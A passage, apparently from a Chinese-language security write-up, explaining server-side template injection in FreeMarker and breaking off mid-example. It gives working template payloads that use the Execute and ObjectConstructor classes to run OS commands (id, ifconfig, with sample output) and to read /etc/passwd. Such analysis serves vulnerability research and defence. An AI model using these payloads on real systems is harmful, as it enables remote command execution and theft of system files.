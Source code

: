 `TemplateModel`的实现类中存在对我们有用的类吗？让我们来看一下这个接口的JavaDoc：

![pic4](http://drops.javaweb.org/uploads/images/0229bca7bfb0b5b9fd031ca88f74f62c4e86c41d.jpg)

一个类的名字出现了：`Execute`。

查看这个类的详情可以发现它能够做我们想要做的事：接收输入并且执行

![pic5](http://drops.javaweb.org/uploads/images/a0741d252dd48fb5e06e44cfc2b7ed20f46f0df2.jpg)

使用它非常简单：

```
<#assign ex="freemarker.template.utility.Execute"?new()> 
${ ex("id") } 

uid=119(tomcat7) gid=127(tomcat7) groups=127(tomcat7)

```

这个payload在后面将会非常有用。

#### 补充：

经过对`TemplateModel`的其他实现类进行研究，发现`ObjectConstructor`类同样很有用，从名字上就可以看出来，这个类是用来构造其他类的对象的，看一下代码就可以明白如何使用了：

![pic6](http://drops.javaweb.org/uploads/images/039435ebc4c05dded0eebff68a3e8cadfafa4f16.jpg)

通过代码可以看到提供类名称和构造函数的参数，就可以利用`ObjectConstructor`类构造我们想要的类，有了这个我们就可以执行任意java代码了，下面给出两个实例，一个是执行命令，另一个是文件读取。

*   命令执行：
    
    ```
    <#assign ob="freemarker.template.utility.ObjectConstructor"?new()> 
    <#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.lang.ProcessBuilder","ifconfig").start().getInputStream())) >        
    
    
    <#list 1..10000 as t>
        <#assign line=br.readLine()!"null">
        <#if line=="null">
            <#break>
        </#if>
        ${line}
        ${"<br>"}
    </#list>
    
    ```
*   文件读取：
    
    ```
    <#assign ob="freemarker.template.utility.ObjectConstructor"?new()> 
    <#assign br=ob("java.io.BufferedReader",ob("java.io.InputStreamReader",ob("java.io.FileInputStream","/etc/passwd"))) >        
    